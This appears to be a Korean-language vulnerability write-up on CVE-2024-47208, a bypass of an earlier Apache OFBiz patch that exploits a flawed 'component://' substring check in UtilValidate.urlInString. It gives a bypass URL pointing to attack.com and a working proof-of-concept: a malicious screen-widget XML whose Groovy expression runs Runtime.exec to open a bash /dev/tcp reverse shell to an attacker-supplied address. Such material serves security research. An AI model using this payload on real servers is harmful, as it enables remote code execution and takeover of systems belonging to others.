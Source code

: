 ## 이전 취약점의 패치 우회

`UtilValidate` 클래스의 `urlInString` 메소드는 다음과 같이 정의되어 있습니다.

🔍 /framework/base/src/main/java/org/apache/ofbiz/base/util/UtilValidate.java

```java
public static boolean urlInString(String s) {
    if (isEmpty(s) || s.contains("component://")) {
        return false;
    }
    return s.indexOf("://") != -1;
}
```

위 `urlInString` 메소드의 로직을 살펴보면, 전달받은 인자 `s` 에 Apache OFBiz 애플리케이션의 내부 리소스만을 허용하도록 `component://` 가 포함 되는지를 확인하고 있습니다.

이때, 해당 로직에서는 `component://` 문자열이 단순히 포함되는지만을 검사하고 있기 때문에 문제가 발생합니다. 그 이유는 `http://` 로 시작되는 문자열 끝에 URL 파라미터의 값으로 `component://` 를 아래와 같이 전달할 경우 쉽게 우회 되기 때문입니다.

```java
http://attack.com:80/mal.xml?bypass=component://
```

이 내용을 토대로 `CVE-2024-47208` 취약점에 대한 PoC를 수행하여 우회가 되는지를 확인해보겠습니다.

# PoC

우선 이전 `CVE-2024-45507` 취약점과 동일하게 환경을 구성합니다.

## 서버 악성 스크린 위젯 파일(XML) 준비

아래의 악성 스크린 위젯 파일(XML)을 서버에 저장합니다.

참고로, 임의 명령어를 실행할 경우 해당 값을 참조하여 출력하는 구문이 없으므로 다음과 같이 리버스 쉘을 이용합니다. 따라서, 아래 코드에서 `<리버스 쉘 주소>` 를 자신의 리버스 쉘 주소 정보로 변경합니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">
    <screen name="StatsDecorator">
        <section>
            <actions>
                <set field="headerItem" value="${groovy:
                r = Runtime.getRuntime();
                p = r.exec(['/bin/bash','-c','exec 5&lt;&gt;/dev/tcp/<리버스 쉘 주소>/9999;cat &lt;&amp;5 | while read line; do $line 2&gt;&amp;5 &gt;&amp;5; done'] as String[]);
                p.waitFor();
                }"/>
                <entity-one entity-name="FinAccount" value-field="finAccount"/>
            </actions>
        </section>
    </screen>
</screens>
```
